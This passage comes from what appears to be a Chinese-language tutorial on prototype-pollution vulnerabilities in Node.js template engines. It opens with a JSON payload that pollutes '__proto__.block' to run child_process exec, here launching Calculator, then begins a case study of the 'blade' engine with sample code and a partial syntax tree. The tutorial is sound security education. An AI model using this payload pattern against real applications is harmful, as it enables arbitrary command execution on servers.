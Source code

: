```plain
{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
            "line":"process.mainModule.require('child_process').exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')" // 可以执行任意命令
        }
}
```

接下来实际分析一个模版引擎的漏洞挖掘案例：

## blade 漏洞挖掘实例

除去上文介绍的三种模版引擎，`blade` 也是常用的一种，安装方法

```plain
npm install blade
```

编写一个示例：

```plain
const blade = require('blade');

const template = `html
    head
        title Blade
    body
        #nav
            ul
                - for(var i in nav)
                    li
                        a(href=nav[i])= i
        #content.center
            h1 Blade is cool`;
blade.compile(template, {'debug': true}, function(err, tmpl) {
    console.log(err);
});
```

正常得到的语法树为：

```plain
{
  doctypes: [],
  nodes: [
    {
      type: 'tag',
      name: 'html',
      id: null,
      classes: [],
      attributes: {},
      children: [
        {
          type: 'tag',
          name: 'head',
          id: null,
          classes: [],
          attributes: {},
          children: [
            {
              type: 'tag',
              name: 'title',
              id: null,
              classes: [],
```